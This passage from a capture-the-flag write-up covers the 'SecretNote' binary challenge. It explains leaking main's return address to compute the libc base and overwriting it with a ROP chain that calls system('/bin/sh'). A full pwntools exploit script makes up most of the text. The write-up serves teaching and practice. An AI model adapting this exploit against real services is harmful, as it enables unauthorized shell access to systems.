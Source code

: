 Finally, you can either download the **libc** and do `pwninit` or `patchelf` to patch the program to use the remote glibc.

This will ensure that your environment is almost identical to the server and that the offsets will be the same.

### Popping a SHELL

Conveniently, the libc address we just read from is also the return address of the `main` function! _(feel free to verify this yourself in GDB)_!

If we overwrite this with a ROP chain to call `system('/bin/sh')`, we win!

### Solution

```py
from pwn import *

context.binary = elf = ELF("./SecretNote")
libc = elf.libc
p = process("./SecretNote")

# fill 8 bytes between start of page->buf and return address of main
p.sendlineafter(b"name : ", b"CDDC")
p.sendlineafter(b"[>]", b"2")
p.sendlineafter(b"page : ", b"32")
p.sendafter(b"note : ", b"a"*8)

# leak the return address of main
p.sendlineafter(b"name : ", b"CDDC")
p.sendlineafter(b"[>]", b"1")
p.sendlineafter(b"page : ", b"32")
p.recvline()
p.recvline()
libc.address = unpack(p.recvline()[18:][:-1], "all") - 171408

# we prepare our ROP chain to call system("/bin/sh")
r = ROP(libc)
r.call(r.ret)
r.system(next(libc.search(b"/bin/sh")))

# we overwrite return address with our ROP chain
p.sendlineafter(b"name : ", b"CDDC")
p.sendlineafter(b"[>]", b"2")
p.sendlineafter(b"page : ", b"32")
p.sendafter(b"note : ", b"a"*8 + r.chain())

# we exhaust the remaining writes so the program will return
for i in range(32-3):
    p.sendlineafter(b"name : ", b"asd")
    p.sendlineafter(b"note : ", b"asd")

p.interactive()
```
